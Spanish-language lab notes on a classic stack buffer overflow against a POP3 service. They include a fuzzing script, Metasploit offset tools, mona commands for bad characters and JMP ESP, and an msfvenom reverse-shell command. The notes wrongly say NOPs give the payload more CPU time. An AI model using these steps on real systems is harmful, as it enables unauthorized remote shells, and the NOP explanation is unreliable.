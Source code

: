 --------------------
- tags: #BufferOverflow #system #privilegeescalation 
---------------


### Mini script como plantilla de ayuda para explotar un servicio remoto

```python 3
import socket
import sys
from struct import pack
from time import sleep

# Variables globales
ip = "192.168.0.159"
port = 110

if len(sys.argv) != 2:
        print("Se requiere añadir un payload para la contraseña.\n\n \t + Ejemplo: python3 exploit.py AAAAAA" + "\n")
        exit(1)

payload = int(sys.argv[1])

#total_lenght = int(sys.argv[1])

s  = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

banner = s.recv(1024)
print("\n[+] Banner del servicio:\n" + str(banner) + "\n")

sleep(3)

s.send(b"USER hola\r\n")
respuesta = s.recv(1024)
print("[+] Respuesta al usuario: \n" + str(respuesta) + "\n")

s.send(b"PASS " + b"A"*payload + b"\r\n")
respuesta2 = s.recv(1024)
print("[+] Respuesta a la contraseña: \n" + str(respuesta2) + "\n")


```




### Generar cadena de bytes para hallar el offset

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l numero de bytes

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

### Conocer el valor del offset a partir del valor del EIP en el crasheo

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xValor de EIP 

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x34644633



	!mona  bytearray
	!mona bytearray -cpb '\x00\x0a\x0d'

025DA128 Es el valor de ESP

	!mona compare -a 0x025DA128 -f C:\Users\david\Desktop\Mona\bytearray.bin



### Generar payload con msfvenom

	msfvenom -p windows/shell_reverse_tcp --format py --platform windows -a x86 -b '\x00\x0a\x0d' LHOST=192.168.0.123 LPORT=443 EXITFUNC=thread


### Búsqueda de módulo para encontrar el jmp esp y saltar al ESP donde estará el payload

	!mona modules
(Buscamos uno con las cuatro primeras columnas en False y copiamos la dirección de la memoria)


┌──(root💀davidalonso)-[~/maquinas/BOF/second_try]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb                  
nasm > jmp ESP
/tmp/nasmXXXX20230719-51582-cduzas:2: error: parser: instruction expected
Error: Assembler did not complete successfully: 1
nasm > jmp ESP
00000000  FFE4              jmp esp



	!mona find -s '\xFF\xE4' -m SLMFC.DLL

### Si con ese comando no encontramos nada, tambien podemos usar este:

	!mona findwild -s "JMP ESP"



### Añadir NOPS antes de enviar el payload

	payload = before_eip + eip + b"\x90"*50 + buf

> Los NOPS hacen referencia a ese b"\\x90"\*50 que se ve, esto le permite al programa asignarle más tiempo de procesador
> a nuestro payload, ya que de lo contrario no tendrá tiempo suficiente para ejecutarse. Se puede aumentar todavía más 
> si es necesario


















